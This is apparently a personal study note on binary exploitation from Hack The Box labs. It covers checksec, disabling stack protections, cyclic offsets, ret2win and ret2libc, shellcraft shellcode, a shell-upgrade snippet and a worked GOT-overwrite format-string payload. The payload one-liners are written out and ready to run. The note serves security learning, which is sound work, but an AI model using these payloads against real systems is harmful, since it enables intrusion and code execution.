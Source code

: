 ```yaml
---
title: "Binary Exploitation - By HTB"
tags:
  - cs/hacking
  - cs/hacking/htb 
programming-languages:
created: 2022-06-30
---
```

## 00
- Check file vulnerabilities:
```bash
checksec --file <filename>
```

- Gets rid of Stack, NX and PIE protection (-m32 changes to 32bits):
```bash
gcc <filename>.c -o <filename> -fno-stack-protector -z execstack -no-pie -m32
```

## 01
GDB-Pwndbg:
- It breaks exactly where the breakpoint is.

To view a variable/condition you can use the code below. This would print the location of the result, so it is a pointer to a register that holds it.
```bash
x $ebp - 0xc
```

You can then change that register like this:
```bash
set *0xffffceac = 1
```

## 02
If file type is **LSB** then reverse order, for example _dead_ would be _daed_. To get it:

```bash
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"'
```

Send to a file and run with it: (xD)
```bash
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"' > payload
./runMeImaFile < payload
```

## 03
Radare2:
```bash
aa
afl
```

We can use `cyclic 100` in `gdb-pwndbg` to generate a pattern, then run that into the program. We then get the characters in the register (eg `eip`) and run `cyclic -l <string>`, so for example: 
```bash
cyclic -l haaa
```

It will return how many bytes we need to overflow.

If the function we want to access is in `0x08049182` for example, we can do:
```bash
python2 -c 'print "A" * 28 + "\x82\x91\x04\x08"' > payload
```

```bash
ropper --file ret2win_params --search "pop rsi"
```

## 04
We check the `cycle`, then figure out how much to overflow. We find the `return` address (what function returns), set a breakpoint to it then run the program with the payload generated.

deadbeef = `\xef\xbe\xad\xde`

When a function is called, the return pointer is pushed to the stack, so it knows where to return to, followed by any function parameters.

With 64bits, we have to populate the registers not just send the parameters, for example `rdi` and `rsi`. We also when running `cyclic` take the values from the `RSP`, for example the first four.

## 05
Getting a shell:
```bash
shellcraft -l
shellcraft i386.linux.sh

# to get it in assembly:
shellcraft i386.linux.sh -f a
```

To get a reverse shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
# control + z
stty raw -echo; fg;
export TERM=xterm
```

## 06
This file is safer as you can see with `checksec`. Therefore, we need to execute `bin/sh` from LibC.

To find libC we can run `ldd <filename>`.

To turn off randomiser:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

To get libC address:
```bash
ldd <filename>
```

To find the offset from base libC to system:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

To find offset to `/bin/sh` for example:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/bash"
```

## 08
- https://guyinatuxedo.github.io/5.1-mitigation_aslr_pie/index.html
- https://github.com/shellphish/how2heap
- https://ir0nstone.gitbook.io/notes/types/stack

- Can use `piebase` in gdb-pwndbg to figure out the offset. For example, `breakrva <a function for example 0x11f0` sets a breakpoint in that function no matter if the program restarts as it knows the offset from the top of the run.

To find **libc** in a remote server: https://libc.blukat.me/ by using the leaked address, for example puts.

We can find the `GOT.printf` address in Ghidra, inside `.got.plt`. We can then write something at it.

### Tutorial
- Need to overwrite 0x0804c00c (`GOT.printf`) with 0xf7dff040 (`LIBC.system`).

- It means writing 0xf7df (63455) @ 0x0804c00c + 2 = 0x0804c00e (high order) and 0xf040 (61504) @ 0x0804c00c (low order).

- Now, we have to figure out the value to set for the padding. Here is the formula :

```
[The value we want] - [The bytes alredy wrote] = [The value to set].            
```                                                                                  

- Let’s start with the low order bytes :                                        

It’ll will be 61504 - 8 = 61496, because we already wrote 8 bytes (the two 4 bytes addresses).

- Then, the high order bytes:                                                  

It’ll will be 63455 - 61504 = 1951, because we already wrote 61504 bytes (the two 4 bytes addresses and 61496 bytes from the previous writing).                                                     

- Now we can construct the exploit (note our write offset is `%4` so we want `[%4,%5]` as offsets instead of `[%7,%8]`):

```
      \x0c\xc0\x04\x08 or 0x0804c00c (in reverse order) points to the low order bytes.    
      \x0e\xc0\x04\x08 or 0x0804c00e (in reverse order) points to the high order bytes.
      %61496x will write 61496 bytes on the standard output.                                              
      %4$hn will write 8 + 61496 = 61504 bytes (or 0xf040) at the first address specified (0x0804c00c).
      %1951x will write 1951 bytes on the standard output.                                                  
      %5$hn will write 8 + 61496 + 1951 = 63455 (or 0xf7df) at the second address specified (0x0804c00e).
```                                                                                            

```python
  python2 -c 'print("\x0c\xc0\x04\x08\x0e\xc0\x04\x08%61496x%4$hn%1951x%5$hn")' > payload
```                                                                                      

  * Based on excellent blogpost: https://axcheron.github.io/exploit-101-format-strings/

```bash
(cat payload; cat) | ./got_overwrite
```

## HTB - Explosion (Starting Point)
- Info on ports [here](https://www.speedguide.net/ports.php).

## HTB - Preignition (Starting Point)
- Dir busting:
```bash
sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u {ip}
```

## HTB - Bike (Starting Point)
Hacktricks guide ([here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection))

### Useful tools
- Ghidra
- GDB
- Radare2
- Ropper
- GDB-PwnDBG
- LTrace
